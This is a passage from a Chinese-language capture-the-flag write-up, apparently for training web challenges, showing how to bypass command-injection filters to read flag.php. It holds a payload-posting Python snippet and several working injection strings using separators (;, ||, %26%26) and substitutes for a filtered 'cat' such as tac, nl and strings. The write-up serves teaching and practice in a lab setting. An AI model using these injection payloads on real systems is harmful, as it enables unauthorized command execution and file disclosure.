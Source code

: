 for k in range(0,len(myb)):

myfun(k,myb)

data2="(\""+ans1+"\"|\""+ans2+"\")"

data={"c":data1+data2}

r=requests.post(url=url,data=data)

print(r.text)

通过这个脚本我们便可以得到flag：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/28f9bcdeb24bde0f368dbc7b28648bc2.png)

## Web42：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/9260908cb5a700504c92e8fbdf8cc2ea.png)

解题思路：

/dev/null ：首先表示标准输出重定向到空设备文件，也就是不输出任何信息到终端，也就是不显示任何信息。
 2\>&1 ： 接着，标准错误输出重定向到标准输出，因为之前标准输出已经重定向到了空设备文件，所以标准错误输出也重定向到空设备文件。

总的来说主要意思是不进行回显，可以将其理解成将输入的数写入黑洞，也就是说只要执行一个命令都无效。我们要让命令回显，那么进行命令分隔即可。

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/f14589870c54962bbfbcc44c1f73126a.png)

/?c=cat flag.php; 或者/?c=cat flag.php|| 或者cat flag.php&&cat flag.php

(注意&要转换为url编码%26)即/?c=cat%20flag.php%26%26cat%20flag.php

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/1d183e0237f6eb8ba5826f9f3c8239be.png)

## Web43：

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/938621ab091d9ca27720bad4a41630f8.png)

解题思路：该题与42差不多，不过过滤了cat，我们可以使用以下命令获取flag。

/?c=tac flag.php||

/?c= tac flag.php%26%26tac flag.php

?c=more flag.php||

?c=sort flag.php||

?c=less flag.php||

?c=tac flag.php||

?c=tail flag.php||

?c=nl flag.php||

?c=strings flag.php||
